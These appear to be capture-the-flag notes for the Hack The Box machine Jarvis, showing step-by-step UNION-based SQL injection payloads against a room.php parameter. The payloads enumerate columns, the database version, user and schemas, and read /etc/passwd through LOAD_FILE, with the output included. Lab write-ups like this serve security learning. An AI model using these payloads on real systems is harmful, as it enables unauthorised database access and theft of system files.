 ## enumeration

```
jarvis.htb/room.php?cod=6 order by 1
jarvis.htb/room.php?cod=6 order by 7
jarvis.htb/room.php?cod=6 order by 8 > error
```

- we check what types are allowed


```
/room.php?cod=6 UNION SELECT 'a','a','a','a','a','a','a'
/room.php?cod=6 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL
jarvis.htb/room.php?cod=6 UNION SELECT 1,2,3,4,5,6,7
```

- show results we use -1 to show us the numbers elsewhere

    
    ```
    jarvis.htb/room.php?cod=-1 UNION SELECT 1,2,3,4,5,6,7
    ```
    
it shows us 2,3,4,5

    
- we try to see the version in one of the printable fields

    
    ```
    jarvis.htb/room.php?cod=-1 UNION SELECT 1,@@verion,3,4,5,6,7
    ```
    
- we continue listing
    
- user, hostname , db

```
http://jarvis.htb/room.php?cod=-1%20UNION%20SELECT%20NULL,@@version,user(),@@hostname,5,6,7

user = DBadmin@localhost
hostname = jarvis
database() = HOTEL
```

- schema

```
jarvis.htb/room.php?cod=-1 UNION SELECT 1,(select SCHEMA_NAME from Information_Schema.SCHEMATA LIMIT3,1),3,4,5,6,7
```

- lfi

```
http://jarvis.htb/room.php?cod=-1%20UNION%20SELECT%20NULL,@@version,LOAD_FILE(%22/etc/passwd%22),4,5,NULL,NULL

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```